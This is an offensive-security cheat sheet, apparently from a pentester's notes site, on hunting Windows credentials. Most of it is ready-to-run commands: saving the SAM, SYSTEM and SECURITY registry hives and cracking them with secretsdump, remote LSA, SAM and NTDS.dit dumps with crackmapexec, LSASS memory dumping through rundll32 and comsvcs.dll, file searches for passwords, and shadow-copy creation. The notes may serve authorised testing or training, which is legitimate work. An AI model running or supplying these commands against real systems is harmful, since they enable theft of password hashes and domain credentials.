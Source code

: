 ```yaml
---
icon: key
---
```


# Cred Hunting

## Copying SAM Registry Hives

If we have local admin access on target, we could copy three registry SAM hives, which would help us to dump and crack hashes



| Registry Hive                                         | Description                                                                         |
| ----------------------------------------------------- | ----------------------------------------------------------------------------------- |
| <mark style="color:green;">**`HKLM\sam`**</mark>      | Hashes associated with local account passwords                                      |
| <mark style="color:green;">**`HKLM\system`**</mark>   | System bootkey, which is encryption/decryption key for SAM                          |
| <mark style="color:green;">**`HKLM\security`**</mark> | Cached credentials for domain accounts, it is not 100% needed, but would help a lot |

For dumping hives we would use reg.exe as admin

```powershell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
The operation completed successfully.
```

### Running secretsdump.py

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

## **Remote Dumping**

#### **Dumping LSA Secrets Remotely**

```bash
crackmapexec smb 13.13.13.13 --local-auth -u amogus -p 1mp0st3r --lsa
```

#### Dumping SAM Remotely&#x20;

```bash
crackmapexec smb 13.13.13.13 --local-auth -u amogus -p 1mp0st3r --sam
```

#### Dumping  NTDS.dit Remotely

```bash
crackmapexec smb 13.13.13.13 -u amogus -p 1mp0st3r --ntds
```

## LSASS Dumping

**Rundll32.exe & Comsvcs.dll Method**

<mark style="color:orange;">**IMPORTANT: Anitivirus would see this as malicious activity.**</mark> The point of method is that we use <mark style="color:blue;">**rundll32.exe**</mark> to call an exported function of <mark style="color:blue;">**comsvcs.dll**</mark> which also calls the **MiniDumpWriteDump** (**MiniDump**) function to dump the **LSASS** process memory to a specified directory (**C:\lsass.dmp**). But to do this we'll need a LSASS PID. with <mark style="color:blue;">**`tasklist /svc`**</mark> in **cmd** or <mark style="color:blue;">**`Get-Process lsass`**</mark> in **powershell**. With PID we could dump LSASS memory.

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 666 C:\lsass.dmp full
```

## CMD

### Findstr

```powershell
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

C:\> findstr /s /i flag n:\*.*
```

### Dir

```powershell
dir n:\*flag* /s /
```

## PowerShell

### Include

```powershell
Get-ChildItem -Recurse -Path N:\ -Include *flag* -File
```

### Select-String

```powershell
Get-ChildItem -Recurse -Path N:\ | Select-String "flag" -List
```

## Creating Shadow Copy of C:

```powershell
PS C:\> vssadmin CREATE SHADOW /For=C:
```

## Stealing NTDS.dit using CME

```bash
crackmapexec smb 13.13.13.13 -u amogus -p 1mp0st3r --ntds
```

***

